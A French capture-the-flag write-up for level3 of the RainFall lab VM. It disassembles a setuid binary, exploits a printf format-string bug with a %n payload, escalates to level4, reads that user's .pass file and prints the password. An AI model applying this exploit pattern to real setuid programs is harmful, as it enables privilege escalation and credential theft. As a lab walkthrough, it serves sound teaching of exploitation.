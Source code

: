 On a un binaire avec le flag setuid
```
level3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
```
On désassemble
```asm
level3@RainFall:~$ objdump -d -M intel ./level3
080484a4 <v>:
 80484a4:       55                      push   ebp
 80484a5:       89 e5                   mov    ebp,esp
 80484a7:       81 ec 18 02 00 00       sub    esp,0x218
 80484ad:       a1 60 98 04 08          mov    eax,ds:0x8049860
 80484b2:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 80484b6:       c7 44 24 04 00 02 00    mov    DWORD PTR [esp+0x4],0x200
 80484bd:       00
 80484be:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484c4:       89 04 24                mov    DWORD PTR [esp],eax
 80484c7:       e8 d4 fe ff ff          call   80483a0 <fgets@plt>
 80484cc:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484d2:       89 04 24                mov    DWORD PTR [esp],eax
 80484d5:       e8 b6 fe ff ff          call   8048390 <printf@plt>
 80484da:       a1 8c 98 04 08          mov    eax,ds:0x804988c
 80484df:       83 f8 40                cmp    eax,0x40
 80484e2:       75 34                   jne    8048518 <v+0x74>
 80484e4:       a1 80 98 04 08          mov    eax,ds:0x8049880
 80484e9:       89 c2                   mov    edx,eax
 80484eb:       b8 00 86 04 08          mov    eax,0x8048600
 80484f0:       89 54 24 0c             mov    DWORD PTR [esp+0xc],edx
 80484f4:       c7 44 24 08 0c 00 00    mov    DWORD PTR [esp+0x8],0xc
 80484fb:       00
 80484fc:       c7 44 24 04 01 00 00    mov    DWORD PTR [esp+0x4],0x1
 8048503:       00
 8048504:       89 04 24                mov    DWORD PTR [esp],eax
 8048507:       e8 a4 fe ff ff          call   80483b0 <fwrite@plt>
 804850c:       c7 04 24 0d 86 04 08    mov    DWORD PTR [esp],0x804860d
 8048513:       e8 a8 fe ff ff          call   80483c0 <system@plt>
 8048518:       c9                      leave
 8048519:       c3                      ret

0804851a <main>:
 804851a:       55                      push   ebp
 804851b:       89 e5                   mov    ebp,esp
 804851d:       83 e4 f0                and    esp,0xfffffff0
 8048520:       e8 7f ff ff ff          call   80484a4 <v>
 8048525:       c9                      leave
 8048526:       c3                      ret
 8048527:       90                      nop
 8048528:       90                      nop
 8048529:       90                      nop
 804852a:       90                      nop
 804852b:       90                      nop
 804852c:       90                      nop
 804852d:       90                      nop
 804852e:       90                      nop
 804852f:       90                      nop
```
On remarque l'appel à **fgets**, **printf**, **fwrite** et **system**. La fonction v est intéressante. Elle est appelé par main et utilise la fonction printf.On voit que avant printf, les registres habiruellement utilisé pour passer des arguments ne sont pas utilisés et restent donc a priori aux valeurs définies avant l'appel a fgets, donc printf est appelé de cette manière: printf(buffer);
>Cela déclenche généralement un warning à la compilation:
```C
test.c:7:19: warning: format not a string literal and no format arguments [-Wformat-security]
    7 |  int res = printf(buffer);
      |
```
On va a priori pouvoir faire un exploit de format.
Un contrôle protège l'appel a **system**, un cmp est fait entre une valeur à l'adresse **ds:0x804988c** et 0x40, soit 64. **ds** veut dire qu'elle est dans le data segment, c'est donc une variable static ou global modifiable.
Si on le passe, **fwrite** est appelé, on suppose que fwrite va écrire dans un buffer ou sur la sortie standard et que system va prendre cette sortie comme argument:
```asm
 80484da:       a1 8c 98 04 08          mov    eax,ds:0x804988c
 80484df:       83 f8 40                cmp    eax,0x40
 80484e2:       75 34                   jne    8048518 <v+0x74>
 80484e4:       a1 80 98 04 08          mov    eax,ds:0x8049880
 80484e9:       89 c2                   mov    edx,eax
 80484eb:       b8 00 86 04 08          mov    eax,0x8048600
 80484f0:       89 54 24 0c             mov    DWORD PTR [esp+0xc],edx
 80484f4:       c7 44 24 08 0c 00 00    mov    DWORD PTR [esp+0x8],0xc
 80484fb:       00
 80484fc:       c7 44 24 04 01 00 00    mov    DWORD PTR [esp+0x4],0x1
 8048503:       00
 8048504:       89 04 24                mov    DWORD PTR [esp],eax
 8048507:       e8 a4 fe ff ff          call   80483b0 <fwrite@plt>
 804850c:       c7 04 24 0d 86 04 08    mov    DWORD PTR [esp],0x804860d
 8048513:       e8 a8 fe ff ff          call   80483c0 <system@plt>
```
Il faut donc écrire 64 à cette adresse **0x804988c** pour passer le contrôle.
Vérifions d'abord la vulnérabilité de printf
```
level3@RainFall:~$ ./level3
aaaa %x %x %x %x %x %x %x
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078
```
plusieurs choses:
- printf imprime d'abord la chaine passé en paramètre
- on a ensuite 0x200 soit 512, on remarque que c'est le premier argument de fgets dans **ebx**
- puis b7fd1ac0 b7ff37d0 qui sont certainement les deuxième et troisième arguments dans **ecx** et **edx**
- enfin 0x61616161 qui est notre chaine "aaaa"
- Le format qui permat d'imprimer le buffer passé en argument est en 4ème position, on peut utiliser %4$ + format

>Le format %n permet d'écrire à l'adresse n, qui est l'adresse d'un int, le nombre de charactère déjà imprimés par printf

essayons d'écrire l'adresse en **little endian**:
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08%4$x"' > /tmp/test_payload
level3@RainFall:~$ cat /tmp/test_payload | ./level3
�804988c
```
Il y a 1 caractère imprimé avant le format %4$x
Nous allons donc faire le payload suivant:
l'adresse où le cmp s'effectue + une chaine random pour compléter + le format %n en quatrième argument de printf:
**0x804988c** + a * 60 + %4$n
soit:
1 octet imprimé + 60 octets imprimés + 3 octets imprimés:
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%4$n"' > /tmp/payload
```
Testons avec **gdb**:
```
level3@RainFall:~$ gdb -q ./level3
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x804851d
(gdb) b v
Breakpoint 2 at 0x80484ad
(gdb) b *0x080484df
Breakpoint 3 at 0x80484df
(gdb) r < /tmp/payload
Starting program: /home/user/level3/level3 < /tmp/payload

Breakpoint 1, 0x0804851d in main ()
(gdb) s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x080484ad in v ()
(gdb)
Single stepping until exit from function v,
which has no line number information.
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 3, 0x080484df in v ()
(gdb) i r
eax            0x40     64
ecx            0x0      0
edx            0x0      0
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff510       0xbffff510
ebp            0xbffff728       0xbffff728
esi            0x0      0
edi            0x0      0
eip            0x80484df        0x80484df <v+59>
eflags         0x210282 [ SF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb)
(gdb) s
Single stepping until exit from function v,
which has no line number information.
Wait what?!
0x08048525 in main ()
(gdb) quit
```
on a bien 64 dans **eax** donc le compte est bon
Exploit:
```
level3@RainFall:~$ cat /tmp/payload - | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
id
uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
Flag!